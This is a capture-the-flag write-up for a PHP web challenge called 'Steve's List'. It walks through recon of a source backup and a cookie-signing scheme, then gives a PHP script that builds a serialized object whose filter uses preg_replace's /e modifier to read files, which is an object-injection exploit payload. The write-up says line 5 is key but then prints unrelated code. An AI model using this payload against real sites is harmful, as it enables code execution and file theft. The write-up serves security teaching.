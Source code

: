 # Steve's List

What a fun challenge! We have a pwned website and we have to figure out how to pwn it as well.

## Recon
Looking at the `steves_list_backup.zip` we see the following files:
```
$ ll steves_list_backup
total 156
drwxr-xr-x 5 ctf ctf  4096 Oct 25 18:30 ./
drwxrwxr-x 3 ctf ctf  4096 Nov 12 17:11 ../
-rw-r--r-- 1 ctf ctf   934 Oct 25 18:28 cookies.php
drwxr-xr-x 2 ctf ctf  4096 Oct 25 18:28 includes/
-rw-r--r-- 1 ctf ctf   751 Oct 25 18:28 index.php
drwxr-xr-x 2 ctf ctf  4096 Oct 25 18:30 posts/
-rw-r--r-- 1 ctf ctf   371 Oct 25 18:29 root_data.php
-rw-r--r-- 1 ctf ctf 92413 Oct 25 18:28 Steve.png
drwxr-xr-x 2 ctf ctf  4096 Oct 25 18:28 templates/
```

The first file to note is `cookies.php`:
```php
  2   if (isset($_COOKIE['custom_settings'])) {
        ...
 16     }
 17   } else {
 18     $custom_settings = array(0 => true);
 19     setcookie('custom_settings', urlencode(serialize(true)), time() + 86    400 * 30, "/");
 20     setcookie('custom_settings_hash', sha1(AUTH_SECRET . serialize(true)    ), time() + 86400 * 30, "/");
 21   }

```
Lines 19 and 20 show that if the cookie `custom_settings` isn't set aka first visit to the website, then two cookies are set: `custom_settings` and `custom_settings_hash`.

This can be verified in Google Chrome via the developer console (`Right Click -> Inspect Element -> 'Console'`)
```
> document.cookie
"custom_settings=b%253A1%253B; custom_settings_hash=2141b332222df459fd212440824a35e63d37ef69"
```

Also, because we have the source code, we know what these values mean:
`custom_settings` - urlencode(serialize(true))


Line 5 of the same file is of key importance to us.

```php
<?php
require_once('steves_list_backup/includes/classes.php');
$filter = [new Filter('/^(.*)/e', 'file_get_contents(\\\'{}\\\')')];

$text = "file_get_contents";
$text = htmlspecialchars($text);

$title = "yay_flag";
$title = htmlspecialchars($title);

$post = new Post($title, $text, $filter);

$post_ser = serialize($post);

$ser = $post_ser;
echo $ser;
?>
```
